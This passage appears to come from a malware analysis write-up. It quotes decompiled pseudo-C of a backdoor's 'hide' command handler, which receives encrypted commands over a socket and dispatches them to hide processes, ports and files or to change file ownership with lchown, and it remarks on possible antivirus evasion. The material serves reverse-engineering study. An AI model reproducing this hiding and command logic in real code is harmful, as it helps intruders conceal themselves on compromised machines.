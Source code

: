 <h4>The "hide" function uses a switch condition for redirect to the needed functions to perform for hiding PID, port, files or the attributes for change ownership of designed files by lchown call. We can note that a lot of case conditions are empty on the results, that for making more harder the analysis and AV detection ?</h4>

```cpp
 var_1014h._0_4_ = (uint32_t)arg1;
 var_4h._0_4_ = 0xffffffff;
 if (arg_10h._4_4_ != 0) {
  if (0xfff < arg_10h._4_4_) goto code_r0x00403566;
  iVar1 = saferecv(arg1 & 0xffffffff, (int64_t)&var_1014h + 4, (uint64_t)arg_10h._4_4_);
  if (iVar1 == 0) goto code_r0x00403566;
  encrypt_code((void *)((int64_t)&var_1014h + 4), (uint64_t)arg_10h._4_4_, (uint64_t)arg_10h._4_4_);
 }
 arg_20h._4_4_ = (uint32_t)((uint64_t)arg_20h >> 0x20);
 arg_10h._4_4_ = (uint32_t)((uint64_t)arg_10h >> 0x20);
 // switch table (21 cases) at 0x4081f8
 switch(arg_20h & 0xffffffff) {
 case 1:
 case 2:
 case 3:
 case 4:
 case 5:
 case 6:
 case 7:
 case 8:
 case 9:
 case 10:
  var_4h._0_4_ = HidePidPort(arg_20h & 0xffffffff, (uint64_t)arg_20h._4_4_);
  break;
 case 0xb:
 case 0xc:
  if (arg_10h._4_4_ != 0) {
   var_4h._0_4_ = HideFile(arg_20h & 0xffffffff, (char *)((int64_t)&var_1014h + 4));
  }
  break;
 case 0x13:
  if (arg_10h._4_4_ != 0) {
   var_4h._0_4_ = lchown((int64_t)&var_1014h + 4, 0x95b62d85, 0xf100cbff);
  }
  break;
 case 0x14:
  if (arg_10h._4_4_ != 0) {
   var_4h._0_4_ = lchown((int64_t)&var_1014h + 4, 0, 0);
  }
 }
code_r0x00403566:
 arg_20h._0_4_ = (undefined4)var_4h;
 uVar2 = CalcHeaderCrc();
 arg_10h._0_4_ = uVar2;
 encrypt_code(&arg_10h, 0x18, arg3);
 safesend((uint64_t)(uint32_t)var_1014h, &arg_10h, 0x18);
 return;
```
